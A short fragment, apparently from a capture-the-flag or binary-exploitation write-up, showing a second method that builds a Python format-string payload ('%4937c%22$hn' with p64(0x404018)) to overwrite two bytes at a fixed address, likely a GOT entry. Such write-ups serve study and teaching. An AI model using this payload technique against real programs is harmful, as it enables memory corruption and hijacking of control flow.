 ![alt text](images/image-8-3.png)

#### Second way: Overwrite 2 byte.

```
payload  = b'A'*112
payload += f'%4937c%22$hn'.encode()
payload += b'A' * 4
payload += p64(0x404018)
```
